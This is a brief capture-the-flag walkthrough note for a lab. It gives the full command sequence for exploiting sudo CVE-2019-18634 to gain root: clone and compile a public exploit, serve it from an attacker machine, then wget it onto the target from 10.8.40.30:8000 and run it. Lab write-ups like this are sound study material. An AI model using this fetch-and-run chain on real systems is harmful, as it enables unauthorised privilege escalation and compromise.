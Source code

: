 On your Kali Machine:

1. Clone the exploit:  
    `git clone https://github.com/TheJoyOfHacking/saleemrashid-sudo-cve-2019-18634.git`
2. Compile the exploit.  
    `make`
3. Open a python http server.  
    `python3 -m http.server`

On the target machine:

1. Get the file `exploit`.  
    `wget http://10.8.40.30:8000/exploit`
2. Change the exploit file's mode.  
    `chmod +x exploit`
3. Run the file.  
    `./exploit`  
    ![[Exploit sudo -l vulnerability-20240720143145937.webp]]

You're root.

**Next step:** [[Getting root's flag]]
